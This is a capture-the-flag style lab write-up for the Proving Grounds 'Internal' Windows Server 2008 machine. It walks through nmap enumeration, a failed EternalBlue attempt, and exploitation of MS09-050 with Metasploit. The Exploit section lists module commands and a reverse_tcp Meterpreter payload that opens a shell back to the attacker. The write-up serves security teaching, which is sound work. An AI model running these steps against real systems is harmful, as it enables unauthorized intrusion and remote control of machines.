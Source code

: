 ```yaml
---
title: "Proving Grounds - Internal"
date: 2024-10-22T00:00:00+00:00
author: Mathijs Verschuuren
layout: post
permalink: /pg-internal/
categories: Labs
tags: [writeup], [easy]
---
```

Welcome to another Proving Grounds lab! In this session, we'll walk through the process of exploiting a Windows 2008 server. We'll leverage a variety of techniques, including vulnerability enumeration and Metasploit modules, to gain access to the machine.

## Discovery

We start off with a nmap scan and scan all open tcp ports using the '-p-' argument. The following output appears after waiting for the scan to complete.

```bash
sudo nmap -p- -vv -Pn -A -T4 -sV 192.168.239.40 -oA ./fulltcp
```

The scan completes and reveals that the target is a Windows 2008 Server. Notably, port 445 is open, which often indicates SMB (Server Message Block), and port 3389, typically used for Remote Desktop Protocol (RDP), is also open.

```bash
PORT      STATE SERVICE            REASON          VERSION
53/tcp    open  domain             syn-ack ttl 125 Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
135/tcp   open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 125 Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 125
5357/tcp  open  http               syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49157/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2
```

Upon further investigation, we find that Network Level Authentication (NLA) is not enforced on the RDP service, allowing us to probe the RDP login screen. This lack of NLA provides us with crucial information: usernames and operating system details are leaked on the login screen.

![image](https://github.com/user-attachments/assets/78dd432e-327c-4c2c-a487-bb3a20fcb25d)

Given the presence of port 445/tcp, we check if the server is vulnerable to the notorious MS17_010 (also known as EternalBlue), a vulnerability that can lead to remote code execution and was used in the infamous WannaCry ransomware attack. We perform a quick vulnerability scan for MS17_010.

The scan confirms that the machine appears vulnerable, 

![image](https://github.com/user-attachments/assets/8feea7b6-bb05-478a-8760-fa538f793d1b)

but when attempting to exploit it, we run into a STATUS_ACCESS_DENIED error. This indicates that the named pipes necessary to carry out the attack are inaccessible.

This step is crucial, as certain attacks, including EternalBlue, rely on accessing specific named pipes like srvsvc or spoolss. Unfortunately, none of the named pipes that we require are accessible, preventing us from exploiting MS17_010.

![image](https://github.com/user-attachments/assets/b7e161fa-ad57-47a3-b7db-6d308a166408)

### Another approach

After scanning all the services running on the target machine, we decided to use Nmap's --script vuln feature to check for any known vulnerabilities. In hindsight, it became clear that we might have dived too deep too quickly. Initially, we focused on specific attack vectors without fully exploring the overall landscape. Had we taken more time to enumerate and analyze the exposed services in detail from the beginning, we could have identified this vulnerability much earlier.

Thorough enumeration is often overlooked in favor of quicker exploitation attempts, but it’s a crucial step in any engagement. By taking the time to fully understand the environment, we can avoid missing out on valuable attack surfaces. In this case, had we conducted broader scans earlier, we would have spotted the SMB-related MS09-050 vulnerability right away, allowing us to streamline our approach and avoid unnecessary detours.

This serves as a reminder that, while diving deep into a particular service can sometimes yield results, a more methodical and patient approach to enumeration can save time and provide clearer insight into the full range of attack opportunities.
The output indicated that the target was vulnerable to MS09-050:

```bash
PORT    STATE SERVICE
445/tcp open  microsoft-ds
| smb-vuln-ms09-050:
|   VULNERABLE:
|   SMBv2 exploit (MS09-050)
|     State: VULNERABLE
|     Risk factor: HIGH
|     Description: A vulnerability in the Microsoft Server Message Block (SMB) protocol version 2 (SMBv2) could allow remote code execution.
|     Disclosure date: 2009-09-08
|     Exploit results in a buffer overflow in the srv2.sys driver, allowing attackers to execute arbitrary code.
```

MS09-050 refers to a critical vulnerability in the Server Message Block Version 2 (SMBv2) protocol, specifically within the srv2.sys driver on affected Windows operating systems. This vulnerability, also known as CVE-2009-3103, was disclosed in September 2009 and affects Windows Vista, Windows Server 2008, and Windows 7 (pre-release versions). The flaw allows an attacker to craft a specially formed SMB packet and send it to a vulnerable system, which could lead to remote code execution due to a buffer overflow in the handling of the SMBv2 protocol.

This exploit became infamous not only for its severity but also because of its wormable nature. A wormable exploit can automatically propagate between systems without user interaction, making it particularly dangerous in unpatched environments, much like the later EternalBlue exploit that fueled the WannaCry ransomware outbreak in 2017. Wormable vulnerabilities like MS09-050 pose a significant risk to networks, as they can trigger widespread infections by hopping from one vulnerable machine to another, often within minutes.

While not as publicly destructive as EternalBlue, the MS09-050 exploit attracted significant attention in the security community because of the simplicity of the attack and the high privileges an attacker could gain. In an unpatched system, this vulnerability could allow an attacker to gain full control over a machine, potentially leading to the installation of malware, data exfiltration, or lateral movement within the target network.

Microsoft patched the vulnerability in a security update released in 2009, but the exploit remains a stark reminder of the importance of keeping systems up to date, especially in critical network services like SMB. Even now, older or misconfigured systems may still be susceptible, making it a prime target for legacy system attacks.
By reviewing our options, we determined that there is a readily available Metasploit module to exploit MS09-050. The exploit works by sending specially crafted SMB packets to the target system, which can trigger a buffer overflow in the srv2.sys driver, leading to remote code execution.

## Exploit

Here is how we proceeded with the exploitation:

First, we fired up Metasploit and used the following commands to load the appropriate module:

```bash
msfconsole -q
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
```

Next, we set our target details, including the IP address of the Windows Server 2008 machine:

```bash
set RHOST 192.168.239.40
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 443
```

With the settings configured, we initiated the exploit:

![image](https://github.com/user-attachments/assets/a97e0ec0-2eb6-4960-b234-e89d12adbd8c)

The exploit successfully delivered the payload and granted us a Meterpreter shell on the target system.

## Credits

Thank you for following along with this write-up! My aim is to document these processes for future reference while providing insights that can help others in their penetration testing journeys. By sharing the thought process and techniques used in real-world scenarios, I hope to make the concepts more accessible to beginners and intermediate learners alike.
